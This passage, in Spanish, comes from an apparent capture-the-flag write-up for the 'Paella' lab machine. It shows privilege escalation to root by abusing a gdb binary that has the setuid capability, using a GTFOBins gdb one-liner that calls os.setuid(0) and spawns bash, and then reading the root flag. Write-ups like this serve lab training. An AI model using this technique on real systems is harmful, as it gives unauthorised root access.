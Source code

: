 Podemos investigar en la **guía de GTFOBins**, si es que existe una forma en la que podamos abusar de este binario:
* <a href="https://gtfobins.github.io/gtfobins/gdb/" target="_blank">GTFOBins: gdb</a>

Ahí está:

<p align="center">
<img src="/assets/images/THL-writeup-paella/Captura3.png">
</p>

Los comandos indican que debemos asignarle las **capabilities UID** al binario **gdb**, pero esto ya está hecho.

Así que solamente tenemos que usar el último comando, pero necesitamos ejecutarlo desde su ubicación.

Se ubica en el directorio `/bin`, pero en caso de que no esté ahí (que sería raro), usemos el comando **which** para saber si existe y dónde se encuentra:
```bash
paella@TheHackersLabs-Paella:~$ which gdb
/bin/gdb
```

Vamos a movernos al directorio `/bin` y ejecutamos el último comando que nos indica la **guía de GTFOBins**:
```bash
paella@TheHackersLabs-Paella:~$ cd /bin
paella@TheHackersLabs-Paella:/bin$ ./gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
...
...
root@TheHackersLabs-Paella:/bin# 
root@TheHackersLabs-Paella:/bin# whoami
root
```
Listo, ya somos **Root**.

Ya solo busquemos la última flag:
```bash
root@TheHackersLabs-Paella:/bin# cd /root
root@TheHackersLabs-Paella:/root# ls
root.txt
root@TheHackersLabs-Paella:/root# cat root.txt
...
```
Y con esto, terminamos la máquina.
